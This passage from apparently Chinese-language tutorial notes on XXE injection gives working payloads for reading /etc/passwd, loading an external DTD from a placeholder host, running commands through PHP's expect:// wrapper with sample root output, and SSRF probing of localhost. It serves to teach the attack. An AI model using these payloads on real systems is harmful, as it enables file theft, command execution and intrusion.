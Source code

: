     <!ENTITY b SYSTEM "file:////etc/passwd">
    ```

 3. 通过DTD外部实体声明引入外部实体声明

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE test [
        <!ENTITY % d SYSTEM "http://xxxxx.com/test.dtd"> 外部实体声明
        %d;
    ]>
    <c>&b;</c>
    
    test.dtd:
    <!ENTITY b SYSTEM "file:////etc/passwd">
    ```

**XXE可攻击点：**

1. **读取任意文件**

   ```
   <?xml version="1.0"?>
   <!DOCTYPE test [
       <!ENTITY b SYSTEM "file:////etc/passwd">
   ]>
   <c>&b;</c>.
   直接读取passwd 文件内容
   ```

2. **命令执行**

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE GVI [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>    <===============php expect模块加载在程序中
   <catalog>
      <core id="test101">
         <author>John, Doe</author>
         <title>I love XML</title>
         <category>Computers</category>
         <price>9.99</price>
         <date>2018-10-01</date>
         <description>&xxe;</description>   <===============调用
      </core>
   </catalog>
   
   返回数据
   {"error": "no results for description uid=0(root) gid=0(root) groups=0(root)...
   ```

3. **内网探测**

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE GVI [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080" >]>
   <catalog>
      <core id="test101">
         <author>John, Doe</author>
         <title>I love XML</title>
         <category>Computers</category>
         <price>9.99</price>
         <date>2018-10-01</date>
         <description>&xxe;</description>
      </core>
   </catalog>
   
   使用http URI并强制服务器向我们指定的端点和端口发送GET请求，将XXE转换为SSRF
   
   ```